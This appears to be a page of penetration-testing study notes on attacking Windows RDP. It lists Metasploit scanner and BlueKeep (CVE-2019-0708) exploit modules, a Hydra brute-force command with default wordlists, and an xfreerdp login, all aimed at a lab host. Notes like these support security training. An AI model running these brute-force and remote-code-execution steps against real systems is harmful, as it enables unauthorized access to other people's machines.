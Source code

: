 # Metasploit:

- if rdp is not running on standard port 3389,
    
- run auxiliary/scanner/rdp/rdp_scanner on suspected port, eg. 3333
    
    [![rdp_scanner output](https://github.com/neilmadhava/EJPTv2-Notes/raw/main/Host%20Based%20Attacks/images/rdp-01.png)](https://github.com/neilmadhava/EJPTv2-Notes/blob/main/Host%20Based%20Attacks/images/rdp-01.png)
    
- auxiliary/scanner/rdp/cve_2019_0708_bluekeep
    
- exploit/windows/rdp/cve_2019_0708_bluekeep_rce
    
    - set target 2
    - 2 : Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Virtualbox 6)

# Hydra:

- brute-force
- hydra -L -P rdp://10.0.0.31 -s 3333
- wordlists:
    - /usr/share/metasploit-framework/data/wordlists/common_users.txt
    - /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
    - -s specifies non-standard port
- xfreerdp /u: /p: /v:10.0.0.31:3333

# BlueKeep Vuln (CVE-2019-0708)

- takes adv of vuln in windows rdp protocol
- allows attacker to gain access to chunk of kernel mem
- allows remote code execution at system level without auth
- affects XP, Vista, Win7, WinServ2008 & R2
- exploit can cause system crash